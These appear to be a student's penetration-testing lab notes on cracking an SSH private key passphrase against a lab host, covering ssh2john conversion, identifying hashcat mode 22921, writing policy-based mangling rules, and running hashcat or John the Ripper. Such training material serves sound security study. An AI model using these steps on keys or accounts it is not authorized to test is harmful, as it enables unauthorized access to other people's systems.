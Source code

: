 SSH_Passphrase Cracking

- [ ] \## locate private key to use

Attempting to connect with a private key...

```
kali@kali:~/passwordattacks$ chmod 600 id_rsa

kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
The authenticity of host '[192.168.50.201]:2222 ([192.168.50.201]:2222)' can't be established.
ED25519 key fingerprint is SHA256:ab7+Mzb+0/fX5yv1tIDQsW/55n333/oGARIluRonao4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.50.201]:2222' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
dave@192.168.50.201's password: 

kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
```

- [ ] \## Convert private key to johnhash

```sh
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```

- [ ] \## ID the Hash

```sh
ali@kali:~/passwordattacks$ hashcat -h | grep -i "ssh" 
...
sshng$6$
  10300 | SAP CODVN H (PWDSALTEDHASH) iSSHA-1                 | Enterprise Application Software (EAS)
  22911 | RSA/DSA/EC/OpenSSH Private Keys ($0$)               | Private Key
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)<---Correct    | Private Key
  22931 | RSA/DSA/EC/OpenSSH Private Keys ($1, $3$)           | Private Key
  22941 | RSA/DSA/EC/OpenSSH Private Keys ($4$)               | Private Key
  22951 | RSA/DSA/EC/OpenSSH Private Keys ($5$)               | Private Key
```

- [ ] \## Select Wordlist and create rule if needed
    
    For example:
    

```txt
New password policy starting in January 2022. 
Passwords need 3 numbers, a capital letter and a special character
```

Use c for the capitalization of the first letter and $1 $3 $7 for the numerical values.
To address the special characters create rules to append the different special characters $!, $@, and $#.

```sh
kali@kali:~/passwordattacks$ cat ssh.rule
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

- [ ] \## Use Hashcat
    
    w/ wordlist and correct -m switch from two steps ago, (22921 in this instance).
    `hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force`
    
- [ ] \### If there is an issue, (such as aes-256-ctr), try using John
    

```sh
sudo cp /etc/john/john.conf /etc/john/john.conf.bak
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

sudo john --wordlist=ssh.passwords --rules=sshRules ssh.hash
# Replace original .conf if needed

# Also, be cognizant of copying keys from terminal.
# May need to remove any whitespace added (cyberchef can help)
```